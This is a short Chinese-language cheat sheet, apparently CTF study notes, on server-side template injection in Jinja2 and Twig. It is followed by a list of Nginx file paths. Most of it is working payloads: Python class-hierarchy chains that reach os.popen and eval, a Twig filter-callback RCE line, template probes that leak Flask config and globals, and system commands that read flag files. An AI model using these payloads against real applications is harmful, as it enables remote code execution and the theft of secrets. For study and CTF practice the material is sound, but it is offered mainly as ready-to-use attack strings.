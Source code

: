 # SSTI

* ### 标准SSTI查询语句(JinJa2)

```
''.__class__.__base__.__subclasses__() //返回子类列表
''.__class__.__base__.__subclasses__()[30].__init__ //查看第30位子类的init，返回<slot wrapper '__init__' of 'object' objects>则未被重载不存在init
''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']  //执行命令
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()  //得到ls结果并打印在页面上
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```

* ### 标准Twig查询语句：

* ```
  {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}   //RCE
  ```

* Jinjia与Twig区别在于：

* ```
  {{7*'7'}} 回显7777777 ==> Jinja2
  {{7*'7'}} 回显49 ==> Twig 
  ```

* ### SSTI注入

源代码未对config进行过滤时：

```
{{config}} //调出所有app.config中的字段
```

SSTI注入尝试：对于@app.route\('/shrine/'\)，使用

```
/shrine/{{1+1}}
```

进行注入尝试

```
/shrine/{{url_for.__globals__}}   //查看全局
/shrine/{{url_for.__globals__['current_app'].config}}  //查看当前app下的config
```

Payload：

```
{{system('find / -name flag')}}    //查找名为flag的文件
{{system('cat /flag')}}   //获取根目录下名为flag的文件
```



注入点发现：输入时采用{{1+1}}判断是否存在注入点



* Nginx 重要文件目录

  配置文件存放目录：/etc/nginx
  主要配置文件：/etc/nginx/conf/nginx.conf
  管理脚本：/usr/lib64/systemd/system/nginx.service
  模块：/usr/lisb64/nginx/modules
  应用程序：/usr/sbin/nginx
  程序默认存放位置：/usr/share/nginx/html
  日志默认存放位置：/var/log/nginx
  Nginx配置文件：/usr/local/nginx/conf/nginx.conf



